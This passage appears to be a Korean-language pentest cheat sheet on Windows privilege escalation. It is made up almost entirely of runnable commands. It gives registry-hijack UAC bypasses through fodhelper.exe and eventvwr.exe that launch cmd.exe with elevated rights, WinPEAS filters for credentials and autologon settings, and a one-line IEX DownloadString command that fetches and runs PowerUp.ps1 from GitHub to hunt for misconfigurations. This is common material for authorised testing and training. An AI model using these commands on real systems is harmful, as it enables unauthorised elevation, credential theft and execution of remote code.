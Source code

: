 ### 🔧 UAC 설정 오류 악용

```cmd
:: 1. UAC 설정 확인
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System

:: 2. UAC 비활성화된 경우 (EnableLUA = 0)
:: 관리자 그룹 사용자는 즉시 관리자 권한 획득

:: 3. UAC 프롬프트 없음 설정 (ConsentPromptBehaviorAdmin = 0)
:: 관리자 작업이 자동 승인됨

:: 4. UAC 우회 기법 (설정이 약한 경우)
:: fodhelper.exe 우회
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v DelegateExecute /t REG_SZ /d "" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "cmd.exe" /f
fodhelper.exe

:: 5. eventvwr.exe 우회
reg add "HKCU\Software\Classes\mscfile\shell\open\command" /d "cmd.exe" /f
eventvwr.exe
```

## 🤖 자동화 도구 활용

### 🔍 WinPEAS 설정 오류 스캔

```cmd
:: WinPEAS 설정 오류 관련 정보만 추출
winPEAS.exe | findstr /i "misconfiguration\|AlwaysInstall\|autologon\|credential\|UAC"

:: 특정 섹션만 실행
winPEAS.exe systeminfo
winPEAS.exe userinfo
winPEAS.exe filesinfo
```

### 🎯 PowerUp 설정 오류 분석

```powershell
# PowerUp 다운로드 및 실행
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')

# 설정 오류 관련 모든 검사
Invoke-AllChecks | Where-Object {$_ -like "*Misconfiguration*" -or $_ -like "*AlwaysInstall*" -or $_ -like "*AutoLogon*"}

# 개별 설정 오류 검사
Get-RegistryAlwaysInstallElevated
Get-RegistryAutoLogon
Get-UnattendedInstallFile
Get-WebConfig
Get-ApplicationHost
Get-ModifiableFile
```
